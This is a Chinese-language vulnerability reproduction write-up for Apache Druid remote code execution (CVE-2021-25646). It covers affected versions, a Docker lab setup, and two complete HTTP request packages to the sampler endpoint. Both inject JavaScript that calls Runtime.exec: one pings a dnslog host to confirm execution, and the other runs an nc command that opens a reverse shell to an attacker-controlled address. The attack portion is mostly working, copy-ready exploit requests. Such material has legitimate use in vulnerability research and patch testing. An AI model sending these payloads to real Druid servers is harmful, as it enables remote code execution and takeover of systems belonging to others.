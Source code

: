 # Apache Druid 远程代码执行漏洞 CVE-2021-25646

## 漏洞描述

Apache Druid 是用Java编写的面向列的开源分布式数据存储，旨在快速获取大量事件数据，并在数据之上提供低延迟查询。
Apache Druid 默认情况下缺乏授权认证，攻击者可以发送特制请求，利用Druid服务器上进程的特权执行任意代码。
Apache Druid包括执行用户提供的JavaScript的功能嵌入在各种类型请求中的代码。此功能在用于高信任度环境中，默认已被禁用。但是，在Druid 0.20.0及更低版本中，经过身份验证的用户发送恶意请求，利用Apache Druid漏洞可以执行任意代码

## 漏洞影响

> [!NOTE]
>
> Apache Druid < 0.20.1

## 环境搭建

这里使用Docker来搭建环境

![](image/druid-1.png)

Docker下载链接: https://github.com/apache/druid/archive/druid-0.20.0.zip

下载之后进入目录 **distribution\docker**

执行命令编译 **docker-compose up -d**

![](image/druid-2.png)

访问 http://xxx.xxx.xxx.xxx:8888 正常就行了

![](image/druid-3.png)

## 漏洞复现

漏洞原理: https://mp.weixin.qq.com/s/McAoLfyf_tgFIfGTAoRCiw

POC请求包

```json
POST /druid/indexer/v1/sampler HTTP/1.1
Host: xxx.xxx.xxx.xxx​:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
Content-Length: 995
Connection: close


{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('ping xxxxx.dnslog.cn')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}
```

![](image/druid-4.png)

> [!NOTE]
>
> 注意请求中这个位置改为你的dnslog平台地址
>
> java.lang.Runtime.getRuntime().exec('ping -c 4 xxxxx.dnslog.cn')

发送请求即可命令执行

![](image/druid-5.png)

> [!NOTE]
>
> 看了下可能大部分都是docker搭建，而里面大部分命令是不存在的，但是发现docker里面居然默认是有 NC 命令的，那我们就可以用nc反弹一个shell了

反弹shell请求包

```json
POST /druid/indexer/v1/sampler HTTP/1.1
Host: xxx.xxx.xxx.xxx​:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
Content-Length: 1008
Connection: close


{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec(' nc xxx.xxx.xxx.xxx 9999 -e /bin/sh')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}
```

发送请求包就可以得到一个交互式shell了

![](image/druid-6.png)




